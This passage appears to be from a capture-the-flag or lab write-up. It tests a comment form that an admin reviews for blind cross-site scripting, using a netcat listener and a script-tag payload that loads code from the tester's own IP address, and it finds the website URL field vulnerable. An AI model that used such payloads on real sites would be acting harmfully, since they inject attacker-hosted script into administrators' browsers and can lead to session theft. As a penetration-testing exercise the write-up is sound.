then looking at the comment submission page there is a note about comments being approved by an admin first, so this leads me to think a blind xss attack may be an option: 

![](Images/Pasted%20image%2020240125093412.png)

knowing this, lets begin using the form to find vulnerable fields using blind XSS techniques 

first lets setup our server to listen for responses, for now I will use a netcat server: 

![](Images/Pasted%20image%2020240125100340.png)

using inputs like `<script src="http://10.10.15.210:81/name"></script>` for each of the input fields and submitting the form gives us this error: 

![](Images/Pasted%20image%2020240125100733.png)

it appears the name and email fields are sanitized or validated so we will again try without those and get a response from the website url field: 


![](Images/Pasted%20image%2020240125100858.png)
